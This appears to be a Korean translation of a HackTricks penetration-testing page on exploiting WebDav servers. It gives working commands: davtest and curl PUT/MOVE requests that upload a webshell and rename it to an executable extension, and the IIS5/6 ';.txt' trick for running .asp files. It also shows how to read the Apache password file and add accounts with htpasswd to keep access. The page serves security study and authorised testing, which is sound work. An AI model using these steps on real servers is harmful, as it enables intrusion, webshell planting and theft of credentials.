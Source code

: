 # WebDav

{{#include ../../banners/hacktricks-training.md}}

**WebDav**가 활성화된 **HTTP 서버**를 다룰 때, 올바른 **자격 증명**이 있다면 **파일을 조작**할 수 있습니다. 이는 일반적으로 **HTTP 기본 인증**을 통해 확인됩니다. 이러한 서버에 대한 제어를 얻는 것은 종종 **웹쉘의 업로드 및 실행**을 포함합니다.

WebDav 서버에 접근하려면 일반적으로 **유효한 자격 증명**이 필요하며, [**WebDav 브루트포스**](../../generic-hacking/brute-force.md#http-basic-auth)는 이를 획득하는 일반적인 방법입니다.

파일 업로드에 대한 제한을 극복하기 위해, 특히 서버 측 스크립트 실행을 방지하는 제한이 있는 경우, 다음과 같은 방법을 사용할 수 있습니다:

- **제한이 없으면** **실행 가능한 확장자**를 가진 파일을 **직접 업로드**합니다.
- 업로드된 비실행 파일(.txt 등)의 이름을 실행 가능한 확장자로 **변경**합니다.
- 업로드된 비실행 파일의 확장자를 실행 가능한 것으로 **변경**하여 **복사**합니다.

## DavTest

**Davtest**는 **다양한 확장자를 가진 여러 파일을 업로드**하고 **확장자가 실행되는지 확인**하려고 합니다:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../images/image (851).png>)

이것은 **.txt** 및 **.html 확장자가 실행되고 있다는 의미가 아닙니다**. 이는 웹을 통해 **이 파일에 접근할 수 있다는 의미입니다**.

## Cadaver

이 도구를 사용하여 **WebDav** 서버에 **수동으로** 연결하고 **업로드**, **이동** 또는 **삭제**와 같은 작업을 수행할 수 있습니다.
```
cadaver <IP>
```
## PUT 요청
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE 요청
```bash
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
## IIS5/6 WebDav 취약점

이 취약점은 매우 흥미롭습니다. **WebDav**는 **.asp** 확장자를 가진 파일을 **업로드**하거나 **이름을 변경**하는 것을 **허용하지 않습니다**. 그러나 이름 끝에 **";.txt"**를 추가하여 **우회**할 수 있으며, 파일은 .asp 파일처럼 **실행됩니다** (대신 **".txt"** 대신 **".html"**을 사용할 수도 있지만 **";"**를 잊지 마세요).

그런 다음 **".txt" 파일**로 셸을 **업로드**하고 **".asp;.txt"** 파일로 **복사/이동**할 수 있습니다. 웹 서버를 통해 해당 파일에 접근하면 **실행됩니다** (cadaver는 이동 작업이 작동하지 않았다고 말할 것이지만, 실제로는 작동했습니다).

![](<../../images/image (1092).png>)

## 자격 증명 후

Webdav가 Apache 서버를 사용하고 있다면 Apache에 구성된 사이트를 확인해야 합니다. 일반적으로:\
\&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

그 안에는 다음과 같은 내용을 찾을 수 있습니다:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
보시다시피 **webdav** 서버에 대한 유효한 **credentials**가 포함된 파일이 있습니다:
```
/etc/apache2/users.password
```
이러한 유형의 파일 안에는 **username**과 **hash**된 비밀번호가 있습니다. 이것들은 웹다브 서버가 사용자를 인증하는 데 사용하는 자격 증명입니다.

당신은 그것들을 **crack**하거나, 어떤 이유로든 **webdav** 서버에 **access**하기 위해 더 많은 것을 **add**할 수 있습니다:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
새 자격 증명이 작동하는지 확인하려면 다음을 수행할 수 있습니다:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## References

- [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{{#include ../../banners/hacktricks-training.md}}
